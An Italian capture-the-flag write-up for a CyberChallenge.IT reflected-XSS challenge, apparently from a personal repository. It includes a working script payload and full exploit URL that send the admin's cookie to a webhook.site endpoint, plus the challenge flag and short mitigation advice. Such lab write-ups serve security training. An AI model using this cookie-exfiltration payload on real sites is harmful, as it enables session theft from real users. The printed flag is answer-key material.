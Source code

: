 # Writeup: WS_3.01 - XSS Simple 1

## Overview
- **Categoria**: Web  
- **Autore**: bonaff  
- **Difficoltà**: 482  
- **Stato**: Down (last checked: 5 minutes ago)  
- **URL**: [http://xss1.challs.cyberchallenge.it/](http://xss1.challs.cyberchallenge.it/)

## Descrizione 📝
Questa sfida è la prima di una serie di 5 challenge dedicate a **XSS** (Cross-Site Scripting). L’obiettivo è ottenere il cookie dell’admin sfruttando un form di “report” che invia un link al browser dell’amministratore.

## Soluzione 🎯

### 1. Meccanica di Base
- Sul sito, esiste un form dove è possibile inserire un URL da “segnalare”.  
- L’amministratore, visitando l’URL fornito, potrebbe eseguire eventuale codice JavaScript iniettato.

### 2. Preparazione di un End-Point (Webhook)
Per catturare il cookie dell’admin, usiamo un servizio come [Webhook.site](https://webhook.site/) o simili. Questo ci permette di ricevere e registrare le richieste HTTP, inclusi eventuali parametri in query string.

### 3. Costruzione del Payload XSS
Inseriamo uno script che, una volta caricato nel browser dell’admin, reindirizzi l’utente verso il nostro webhook con il cookie come parametro. Un esempio di payload:

```html
<script>
document.location='https://webhook.site/be498e6d-51b6-43eb-aac7-9b64b19f521c?c='+document.cookie
</script>
```
**URL Finale**:
```
http://xss1.challs.cyberchallenge.it/report?url=<script>document.location='https://webhook.site/be498e6d-51b6-43eb-aac7-9b64b19f521c?c='+document.cookie</script>
```
Questo link iniettato viene visualizzato (o cliccato) dall’admin. Una volta caricato, esegue lo script e invia il cookie al nostro endpoint.

### 4. Raccolta del Cookie e Flag
Su Webhook.site, noteremo una nuova richiesta GET con un parametro `c` che contiene il cookie dell’admin. 

```
https://webhook.site/be498e6d-51b6-43eb-aac7-9b64b19f521c?cflag=CCIT{7311ae0320a30749dcfc953327a5a355}
```

## Flag 🏁
```
CCIT{7311ae0320a30749dcfc953327a5a355}
```

## Lezioni Apprese 📚
1. **Stored vs Reflected XSS**: In questa challenge si tratta di un “reflected XSS” perché il payload viene inviato tramite un URL e riflesso al browser dell’admin.  
2. **Uso di Webhook**: I servizi di cattura richieste (webhook) sono utili per testare e dimostrare l’esfiltrazione di dati in tempo reale.  
3. **Protezione**: Per mitigare, bisognerebbe validare e sanificare gli input e applicare intestazioni di sicurezza (es. `Content-Security-Policy`).

## Tools Utilizzati 🛠️
- **Browser Web**: Per generare e testare l’URL malevolo.  
- **Webhook.site**: Per intercettare il cookie dell’admin.  
- **Dev Tools**: Per analizzare eventuali richieste e risposte.

---

*Writeup by Luca Crippa - Last Updated: 2024*
